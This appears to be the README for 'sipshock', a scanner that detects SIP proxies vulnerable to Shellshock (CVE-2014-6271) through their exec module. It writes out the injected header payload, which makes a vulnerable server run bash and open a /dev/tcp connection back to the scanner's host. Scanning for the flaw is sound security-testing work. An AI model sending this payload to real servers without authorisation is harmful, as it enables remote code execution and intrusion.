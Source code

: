 ### A scanner for SIP proxies vulnerable to Shellshock
---

#### Usage:
sipshock [ Flags ] [ IP Addresses ]

#### Usage flags:
- lhost : Local listening address
- lport  : Local listening port (default 10111)
- rport  : Remote port (default 5060)

The exec module in Kamailio, Opensips and propably every other SER fork
passes the received SIP headers as environment variables to the invoking shell.
This makes these SIP proxies vulnerable to CVE-2014-6271 (Bash Shellshock).
If a proxy is using any of the exec funtions and has the 'setvars' parameter set to the default value '1'
then by sending SIP messages containing a specially crafted header we can run arbitrary code on the
proxy machine.

Sipshock tries to detect such vulnerable proxies by sending SIP INVITE Messages
containing the following header: "X-Ploit: () { :;};exec >/dev/tcp/xx.xx.xx.xx/yy"
where xx.xx.xx.xx/yy is the local IP and port that sipshock listens to.
A vulnerable server will invoke a shell that will execute the code above and
open a tcp connection to xx.xx.xx.xx:yy. Sipshock detects the connection and
lists the server as vulnerable.

This program is free software, distributed under the terms of
the GNU General Public License Version 3. See the LICENSE file
at the top of the source tree.
